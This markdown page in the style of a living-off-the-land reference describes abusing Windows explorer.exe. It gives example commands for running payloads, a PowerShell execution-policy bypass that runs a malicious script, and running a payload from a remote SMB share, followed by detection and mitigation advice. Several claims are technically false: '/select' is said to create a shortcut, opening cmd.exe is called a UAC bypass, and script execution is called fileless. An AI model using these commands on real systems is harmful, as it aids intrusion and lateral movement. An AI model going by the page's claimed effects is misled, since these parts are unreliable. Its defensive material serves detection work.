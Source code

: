 # explorer.exe
## What is it?
*```explorer.exe``` is the Windows File Explorer, a graphical user interface (GUI) shell used to browse, open, and manage files and folders in Windows operating systems.*
*It is a core component of the Windows operating system, responsible for managing the desktop, taskbar, file browsing, and overall user interface interaction.*

## Legitimate Usage
- **File Management** → Use to browse and manage files and directories in Windows.
- **Taskbar & Desktop** → Explorer is responsible for the taskbar, Start Menu, and desktop interface.
- **Running Applications** → Through the File Explorer, users can run executables and manage processes.
- **Network Access** → Access shared network drives and files using Explorer’s network browsing capabilities.
- **Drag-and-Drop Operations** → Files and folders can be moved, copied, and managed through the graphical interface.

## How to abuse it
- **Persistence** → Attackers can use ```explorer.exe``` to maintain persistence by executing malicious scripts or programs via the GUI interface.
- **Privilege Escalation** → Attackers can exploit vulnerabilities in ```explorer.exe``` to gain higher system privileges.
- **Bypassing Security Controls** → ```explorer.exe``` can be leveraged to execute malicious files in trusted locations or bypass application whitelisting.
- **Lateral Movement** → Attackers can use ```explorer.exe``` to run malicious applications or scripts on remote systems.
- **Execution of Payloads** → Since ```explorer.exe``` is trusted and commonly executed, attackers can leverage it to run malicious payloads undetected.

## Example attacks
### 1. Launching Malicious Payloads
*Attackers can use ```explorer.exe``` to run malicious executables that they disguise as legitimate files.*

**Execute Malicious Payload through Explorer**

```
explorer.exe C:\path\to\malicious_payload.exe
```

**Effect:**
- The malicious payload runs within the trusted ```explorer.exe``` process, evading detection from security tools that might overlook its execution.
  
### 2. Persistence via Explorer Shortcut
*Attackers can use ```explorer.exe``` to create a shortcut that runs a malicious payload on system startup.*

**Create Shortcut to Malicious Payload**

```
explorer.exe /select, C:\path\to\malicious_payload.exe
```

**Effect:**
- A shortcut is created on the desktop, which runs the payload when clicked, maintaining persistence through user interaction.

### 3. Fileless Execution
*Malicious PowerShell scripts or encoded payloads can be executed by using ```explorer.exe``` to run command files indirectly.*

**Execute PowerShell Script through Explorer**

```
explorer.exe "powershell.exe -NoP -ExecutionPolicy Bypass -Command C:\path\to\malicious_script.ps1"
```

**Effect:**
- Executes a PowerShell script to download and execute further malicious commands, using Explorer to bypass file-based detection methods.

### 4. Lateral Movement via SMB Share
*Attackers can use ```explorer.exe``` to run a malicious file over SMB, enabling lateral movement across the network.*

**Execute Malicious File via SMB Share**

```
explorer.exe \192.168.1.50\C$\Windows\Temp\payload.exe
```

**Effect:**
- Malicious file is executed remotely via SMB, which allows lateral movement from one compromised machine to another.

### 5. Exploiting Explorer for UAC Bypass
*Attackers can use ```explorer.exe``` to bypass User Account Control (UAC) and gain elevated privileges.*

**Bypass UAC Using Explorer**

```
explorer.exe C:\Windows\System32\cmd.exe
```

**Effect:**
- ```cmd.exe``` is launched with elevated privileges by exploiting a UAC bypass vulnerability, giving the attacker administrative control.

### 6. Fileless Attack via Script Execution
*```explorer.exe``` can be used to execute a script stored in memory, reducing the need for file-based malware.*

**Run Malicious VBScript**

```
explorer.exe C:\path\to\script.vbs
```

**Effect:**
- The VBScript runs without being stored in a traditional file, making detection more difficult for traditional antivirus tools.

# Detection & Mitigation
## Detection Methods
**Monitor Suspicious Explorer.exe Executions**
- **Event ID 4688 (New Process Creation)** → Monitor instances where ```explorer.exe``` is executing files from unusual locations, especially non-default directories.
- **Look for Suspicious Command-Line Arguments** → Detect unusual arguments being passed to ```explorer.exe```, such as commands to run executables or scripts.

**Monitor Fileless Executions**
- **Event ID 4104 (PowerShell Command Execution)** → Detect PowerShell commands being executed through ```explorer.exe``` that may indicate a fileless attack.
- **Look for Scripting Languages** → Watch for VBScript, PowerShell, or other script file extensions being executed indirectly via Explorer.

**Monitor SMB Traffic**
- **Event ID 5140 (File Share Access)** → Monitor for unusual SMB access patterns, particularly when ```explorer.exe``` accesses remote shares or executes files from shared locations.

## Mitigation Strategies
- **Application Whitelisting** → Use whitelisting solutions like AppLocker or Windows Defender Application Control (WDAC) to block unauthorized applications from executing via Explorer.
- **Restrict File and Script Execution** → Limit execution rights to specific trusted users and block scripts from running through Explorer.
- **Disable SMBv1** → Disable SMBv1 on all systems to reduce the attack surface for lateral movement via SMB shares.
- **Enforce UAC Policies** → Configure User Account Control (UAC) settings to limit the ability of unauthorized users to bypass elevated privileges.
- **Monitor User Behavior** → Set up alerts for suspicious user activity, particularly actions that involve launching or modifying Explorer-related processes.
